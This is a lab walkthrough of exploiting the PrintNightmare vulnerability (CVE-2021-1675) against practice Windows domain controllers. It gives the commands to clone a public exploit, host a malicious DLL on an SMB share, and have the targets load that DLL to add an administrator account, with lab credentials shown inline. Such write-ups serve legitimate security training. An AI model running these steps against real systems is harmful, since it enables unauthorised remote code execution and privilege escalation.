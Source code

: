 - Clone the exploit
```
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare
```


- Prepare a smb share with the dll
```
impacket-smbserver.py -smb2support ATTACKERSHARE .
```


- Before the exploit no user pnightmare

- Try on Braavos
    - Braavos is an up-to-date windows server 2016, the exploit will not work (same error if you try on the north domain on castelblack server)

![screenshot](pics/printnightmare_braavos.png)

- Exploit on Meereen
```
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@meereen.essos.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```

- The exploit worked

> Wait, you use domain connection instead of –local-auth with cme no ?

- Yes, this is because meereen is a domain controller:

_“Domain controllers do not have built-in or account domains. Also, instead of a SAM database, these systems use the Microsoft Active Directory directory service to store account access information.”_

- see: https://docs.microsoft.com/en-us/windows/win32/secmgmt/built-in-and-account-domains

### Exploit on vulnerable windows server 2019 (winterfell)

- Now try the same exploit on a vulnerable windows server 2019
```
python3 CVE-2021-1675.py north.sevenkingdoms.local/jon.snow:'iknownothing'@north.sevenkingdoms.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```

![screenshot](pics/printnightmare_north.sevekingdom.png)

- And it works too but the user is not in the administrators group :(
- Nothing due to the exploit, it is just our dll who add a user as administrator who get caught when user is setup as administrator

- Good (thing) to know : after some failures the spooler service will be stopped by defender and no more exploit for you until someone restart the server or the spooler service.
    